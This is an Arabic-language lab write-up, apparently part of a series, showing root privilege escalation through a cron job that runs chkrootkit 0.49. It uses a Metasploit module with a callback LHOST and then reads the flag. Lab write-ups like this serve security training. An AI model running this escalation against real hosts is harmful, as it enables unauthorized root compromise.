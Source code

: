 نشوف انه شغال cron job الي هي check-down ف خلونا نشوف وش داخلها  
```bash
cat /bin/check-down  
```  

طبعا الان نشوف انه يشغل شي اسمه chkrootkit ويحط المخرجات في /dev/null كل 60 ثانيه  

ف انت تروح تبحث ايش هو ال chkrootkit وراح تعرف اصداره عن طريق هذا الامر   
```bash
/bin/chkrootkit -v  
```  

ونشوف انه اصداره 0.49 راح نبحث وبنحصل له اكسبلويت سواء في google , searchsploit etc...  

راح نستغله عن طريق الـ metasploit  
```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit  
set session 1  
set LHOST 192.14.195.2  
exploit  
```  

الان استغليناه وكلشي تمام وصار معنا اعلى صلاحيات في اللينكس والي هي الـ root privileges  
مطلوب مننا نقرا الفلاق  
```bash
cat /root/flag  
```  

وبكذا اخذنا الفلاق وانتهى اللاب  

بكرا باذن الله باقي لنا لابين في هذا القسم وراح ندخل قسم جديد  

---  

## Follow us on:  
Twitter:  [s4cript](https://twitter.com/s4cript) , [cyberhub](https://twitter.com/cyberhub) , [0xNawaF1](https://twitter.com/0xNawaF1)